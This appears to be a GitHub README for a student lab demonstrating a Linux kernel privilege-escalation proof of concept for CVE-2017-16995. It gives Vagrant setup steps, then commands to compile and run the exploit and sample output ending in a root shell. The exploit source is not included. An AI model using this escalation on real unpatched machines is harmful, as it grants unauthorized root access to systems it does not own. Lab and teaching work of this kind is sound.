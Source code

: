 # security_information_systems

### PoC of [CVE-2017-16995](https://www.cvedetails.com/cve/CVE-2017-16995/)
The check_alu_op function in kernel/bpf/verifier.c in the Linux kernel through 4.14.8 allows local users to cause a denial of service (memory corruption) or possibly have unspecified other impact by leveraging incorrect sign extension.

### Contents
- Dockerfile
- Exploit : upstream44.c

### Instructions
#### Getting all prepared
```shell
git clone https://github.com/Villaquiranm/security_information_systems.git
cd security_information_systems
```
#### Building Vagrant box
```shell
vagrant up
```
At this point it is necessary to wait because last instruction was to make a reboot in order to update all changes. This delay is approximately one minute after a successful build.

#### Accessing to vagrant box
```shell
vagrant shh
```
If connexion is refused, it is because the box is still rebooting, wait some time and retry.

#### Checking everything
If you follow all steps correctly, now you can see something like this:
```shell
Last login: Sun Nov 25 20:00:11 2018 from 10.0.2.2
vagrant@ubuntu-xenial:~$
```
Your kernel version is "4.4.0-116-generic", you can consult your kernel version with:
```shell
uname -r
```
#### Using the exploit
 First we need to compile our exploit with gcc compiler
 ```shell
 gcc upstream44.c -o hack
 ```
 That will create an executable file called **hack**. Execute it to become sudo.
 ```shell
 ./hack
 ```

Normally the results should be:
```shell
task_struct = ffff880036b38000
uidptr = ffff880036f44784
spawning root shell
root@ubuntu-xenial:~#
```
